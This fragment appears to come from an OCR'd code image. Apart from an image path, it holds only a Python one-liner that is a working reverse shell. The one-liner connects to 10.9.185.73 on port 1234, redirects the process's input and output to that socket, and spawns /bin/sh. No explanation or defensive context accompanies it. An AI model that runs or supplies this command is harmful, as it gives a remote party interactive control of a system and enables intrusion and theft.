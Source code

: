 python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.185.73",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'